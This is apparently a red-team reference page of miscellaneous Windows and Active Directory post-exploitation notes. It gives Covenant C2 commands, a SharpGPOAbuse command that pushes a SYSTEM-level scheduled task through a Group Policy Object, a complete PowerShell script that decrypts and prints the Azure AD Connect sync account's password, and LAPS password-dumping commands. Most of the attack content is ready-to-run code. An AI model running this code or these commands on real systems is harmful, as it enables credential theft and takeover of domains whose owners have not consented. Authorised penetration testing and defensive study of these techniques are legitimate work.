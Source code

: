 # Misc

### Session IDs

On Windows processes run with session id 0 or 1.  Session ID 1 means the process was started by a legitimate user, while 0 is used for various processes spawned by the system. Sometimes having just a 0 session is a problem, in these cases we can just inject into a process that has 1.

### Covenant Misc

Change Delay/Sleep on existing grunt:

```text
Set Delay <seconds>
sleep <seconds>
```

Execute .Net directly with SharpShell:

```text
SharpShell return Shell.PowerShellExecute("whoami");
```

### GPO Abuse

Use [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse) to modify/add GPOs. Covenant example:

```text
Assembly /assemblyname:"SharpGPOAbuse" /parameters:"--AddComputerTask --TaskName \"<taskname>\" --Author NT AUTHORITY\SYSTEM --Command \"cmd.exe\" --Arguments \"/c <cmd>\" --GPOName \"<gponame>\""
```

### Azure AD Connect

The credentials for the hash synchronisation account are stored locally in a database. They can be recovered with [ADConnectDump ](https://github.com/fox-it/adconnectdump)or directly via this script by [xpn](https://blog.xpnsec.com/azuread-connect-for-redteam/). You might need to modify the first line if its stored on a SQL Server instead of locally.

```text
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Data Source=(localdb)\.\ADSync;Initial Catalog=ADSync"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()

$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()

add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)

$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerText}}

Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
```

### LAPS

If you are on a box with LAPS enabled and have the correct permissions you can get the password:

```text
 Get-AdmPwdPassword -ComputerName <>
 Find-AdmPwdExtendedRights -Identity 'DC=,DC=' | Format-List
```

PowerView can do it too:

```text
PowerShell Get-AdmPwdPassword -ComputerName <> | fl
```

Another alternative is using [LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit):

```text
Get-LAPSComputers
Find-LAPSDelegatedGroups
```

### Exfiltrating Data

* Don't egress data without consent, there are dummy solutions for this: [https://github.com/FortyNorthSecurity/Egress-Assess](https://github.com/FortyNorthSecurity/Egress-Assess)

### Monitor Remote Processes with Procmon

* [https://forloop.co.uk/blog/monitoring-processes-on-remote-windows-machines-with-procmon](https://forloop.co.uk/blog/monitoring-processes-on-remote-windows-machines-with-procmon)



